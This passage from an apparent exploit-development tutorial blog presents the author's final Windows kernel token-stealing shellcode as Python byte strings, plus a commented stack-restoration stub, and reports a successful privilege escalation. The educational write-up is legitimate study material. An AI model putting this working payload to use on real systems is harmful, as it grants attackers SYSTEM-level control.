 But I also modified them so that I would push all the used registers onto the stack first to preserve their values and then pop them back at the end of the shellcode so that they would be restored. (The RDI corruption killing the kernel made me paranoid.)

My final shellcode looked like this:
```python
shellcode1 = (
"\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
"\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
"\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
"\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
"\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
"\x5B\x59\x58"                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28 
"\x48\x89\xDF"                   # mov rdi,rbx
"\x48\x81\xEF\xD0\x00\x00\x00"   # sub rdi,0xd0
"\xc3"                           # ret
)
```

I will leave it as an excercise for the reader to tease out the operations there. Please go read Abatchy's blog, it's a great resource. 

Running our final exploit code gives us our desired privesc. 

![](/assets/images/AWE/boom.PNG)
